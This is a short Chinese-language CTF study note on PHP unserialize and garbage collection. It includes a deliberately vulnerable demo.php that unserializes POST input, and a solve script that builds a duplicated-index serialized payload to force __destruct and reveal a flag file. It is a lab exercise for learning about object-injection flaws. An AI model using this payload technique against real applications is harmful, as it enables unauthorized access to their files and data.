 # 强制垃圾回收

[Breaking PHP’s Garbage Collection and Unserialize](https://www.evonide.com/breaking-phps-garbage-collection-and-unserialize/)

[类似但不完全一样的题目 35c3_php](https://ctftime.org/writeup/12781)

```php
<?php
//demo.php
highlight_file(__FILE__);
class demo
{
    public function __wakeup()
    {
        echo "demo __wakeup()<br>";
    }
    public function __destruct()
    {
        echo "demo __destruct()<br>";
        highlight_file("flag.php");
        die();
    }
}

if (!isset($_POST["str"])) {
    die();
}
$tmp = unserialize($_POST["str"]);//此时$tmp在使用反序列化后生成的demo对象,即对象demo被引用,生命周期未结束,无法执行__destruct
throw new Error("I can't destruct,help!!!");//异常抛出,程序立即退出,demo对象无法正常执行__destruct
/*
unserialize($_POST["str"]);//此时没有对该反序列化生成的对象进行引用,因此在完成反序列化操作后,对象生命周期结束,立刻执行__destruct
throw new Error("I can't destruct,help!!!");
*/
```

```php
<?php
//solve.php
class demo{

}
class fake{

}
$a=new demo();
$b=new fake();
$c=array(0=>$a,1=>$b);
$str=serialize($c);
var_dump($str);
$str=str_ireplace('i:1;O:4:"fake"','i:0;O:4:"fake"',$str);
var_dump($str);
```

```php
string 'a:2:{i:0;O:4:"demo":0:{}i:1;O:4:"fake":0:{}}' (length=44)
string 'a:2:{i:0;O:4:"demo":0:{}i:0;O:4:"fake":0:{}}' (length=44)
```

>如果`$c=array(0=>$a,1=>$b);`修改为`$c=array(0=>$a,0=>$b);`得到的序列化结果为`a:1:{i:0;O:4:"fake":0:{}}`

因为在执行序列化前,第一个元素即`$a`已经被第二个元素所覆盖

>todo